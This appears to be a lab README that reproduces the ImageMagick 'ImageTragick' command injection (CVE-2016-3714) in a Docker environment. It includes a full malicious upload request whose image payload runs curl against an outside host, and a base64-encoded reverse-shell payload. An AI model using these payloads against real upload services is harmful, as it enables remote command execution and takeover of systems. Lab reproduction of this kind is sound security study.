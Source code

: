 # Imagemagick Command Injection Vulnerability (CVE-2016–3714)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

Referers:

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## Environment Setup

Execute the following command to start a PHP server that includes Imagemagick 6.9.2-10:

```
docker compose up -d
```

## Exploit

Visit `http://your-ip:8080/` to see an upload component.

Send the following request:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

It can be seen that `www.leavesongs.com:8889` has received the http request, after the curl command was executed successfully:

![](2.png)

POC of getting a reverse shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)

